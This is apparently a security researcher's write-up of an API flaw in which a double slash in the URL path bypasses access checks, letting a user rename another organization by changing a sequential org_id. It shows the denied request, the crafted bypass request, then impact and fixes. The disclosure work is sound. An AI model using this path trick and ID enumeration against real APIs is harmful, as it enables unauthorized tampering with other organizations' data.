 # Bypassing API Restrictions with Double Forward Slashes to Modify Organization Data

## Introduction
During a recent security test, I found a vulnerability in an API where double forward slashes (`//`) in the URL could bypass access controls, enabling unauthorized users to modify sensitive organization data. In this post, I'll explain how I discovered this bug, how it works, and its potential security implications.


The API in question was designed to allow users to manage their organization's settings, such as updating the organization's name. The server had access controls to ensure that users could only change information for their own organization. However, by appending double forward slashes (`//`) to the URL path, I was able to bypass these restrictions and modify the name of another organization.

The server's security controls didn't properly handle URLs with multiple slashes, leading to unintended behavior where a user could send a request to change the name of any organization by simply providing the organization's ID and new name in the request payload.

In this scenario, a user could target organizations with specific numeric `org_id` values, including those that could be derived from a sequence, such as `37849504`, and make unauthorized changes by slightly altering the ID, such as `37849503`.

## Steps to Reproduce

1. **Normal Request (Access Denied)**
   
The following request was made to update the name of my organization:

    ```bash
    
   POST /api/v2/organizations/update/ HTTP/2
   Host: my.exampleapi.com
   Content-Type: application/json
   Authorization: Bearer usertoken123

   {
     "org_name": "NewOrgName",
     "org_id": "37849504"
   }
   
   This request should only allow the user to update their own organization's name. Any attempt to update another organization would be denied, and the request would return:
bash
HTTP/2 403 Forbidden

Manipulated Request (Bypassing Restrictions)Now, I modified the request by inserting double forward slashes (//) into the URL path and changing the org_id to a nearby numeric value (37849503), which should have been inaccessible to the user:
bash
POST //api/v2/organizations/update/ HTTP/2
Host: my.exampleapi.com
Content-Type: application/json
Authorization: Bearer usertoken123

{
  "org_name": "HackedOrgName",
  "org_id": "37849503"
}
This time, the request was processed successfully, even though the user did not have access to the organization with org_id = 37849503. The organization's name was changed to "HackedOrgName."

Impact
This vulnerability can have serious consequences. By exploiting the bug, a user could modify critical information about other organizations, such as their name or other sensitive details. This could lead to:
Unauthorized changes to organizational data.
Loss of trust between users and the service provider.
Potential misuse of features intended to be restricted to certain users or organizations.
Serious reputational damage if organizations can no longer trust the integrity of the platform.

For instance, by altering org_id values like 37849504 to 37849503 or even using other nearby values, an attacker could target different organizations without being detected.

Conclusion
This bug demonstrates a common security issue where input manipulation, in this case through URL path modification, can lead to unintended access. The server failed to properly sanitize and handle URL paths containing double forward slashes, allowing users to bypass security controls.

To prevent this type of vulnerability, developers should:
Properly sanitize and validate URLs to ensure that multiple slashes or other abnormal characters don't affect routing or access control.
Use strict permission checks to ensure users can only modify their own data.
Test APIs for edge cases and URL manipulation techniques to ensure security controls are effective under all circumstances.
